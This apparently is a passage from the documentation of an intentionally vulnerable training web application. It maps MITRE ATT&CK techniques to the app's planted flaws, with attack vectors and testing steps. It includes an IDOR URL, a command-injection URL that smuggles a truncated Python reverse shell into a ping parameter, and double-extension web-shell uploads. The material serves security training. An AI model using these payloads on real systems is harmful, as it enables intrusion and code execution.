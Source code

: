 #### T1548.002: Abuse Elevation Control Mechanism - Bypass UAC

**Description**: Bypass access controls through application logic flaws.

**Vulnerable Component**: IDOR vulnerability

**Attack Vector**:
```
http://localhost:8080/dashboard.php?patient_id=1
```

**Testing Steps**:
1. Login as low-privilege user (patient)
2. Access admin functions via direct URL manipulation
3. Bypass role-based access controls

---

#### T1055: Process Injection

**Description**: Inject code into processes.

**Vulnerable Component**: Command injection vulnerability

**Attack Vector**:
```bash
http://localhost:8080/settings.php?ping=localhost;python3+-c+'import+socket...'
```

**Testing Steps**:
1. Use command injection to inject Python reverse shell
2. Spawn shell in context of web server process
3. Gain code execution as www-data user

---

### 5. Defense Evasion

#### T1027: Obfuscated Files or Information

**Description**: Make file or information difficult to discover or analyze.

**Vulnerable Component**: File upload accepts any extension

**Attack Vector**:
- Upload `shell.php.jpg` (double extension)
- Upload `image.jpg` containing PHP code
- Base64 encode payloads

**Testing Steps**:
1. Create obfuscated web shell
2. Upload with misleading extension
3. Access via direct URL

---

#### T1070.004: Indicator Removal - File Deletion
